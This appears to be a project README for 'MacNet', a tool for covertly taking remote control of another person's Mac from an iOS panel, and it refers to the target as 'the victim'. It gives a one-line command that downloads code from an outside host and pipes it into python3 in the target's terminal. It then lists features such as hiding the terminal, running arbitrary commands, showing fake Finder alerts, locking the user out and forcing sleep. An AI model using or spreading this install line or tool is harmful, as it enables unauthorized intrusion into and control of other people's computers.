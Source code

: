 # MacNet Control Panel 

MacNet is a piece of software that allows you to remotely control someone else's Mac computer using an iOS control panel. To gain control of their computer, all you have to do is type the simple command `https://macnetback-nylr.c9users.io/getc | python3` into their terminal. The program will automatically hide the terminal, and you will have full access.


![App Logo](https://i.imgur.com/8G4LV6b.png)


# Core Features

- The dark screen at the top of the page allows you to tap any location and control the position of the mouse on the victim's computer 
- The OpenURL form allows you to open any URL on the victim's default browser 
- The create Alert form allows you to send an alert to the victim's computer (it will display from "Finder") 
- The execute form allows you to execute any command in the user's terminal 
- The volume slider allows you to change the volume on the user's computer 
- The "Disable" button allows you prevent the user from controlling their computer 
- The "Sleep" button forces the victim's computer to sleep


![Interface](https://i.imgur.com/gdzOh6e.png)


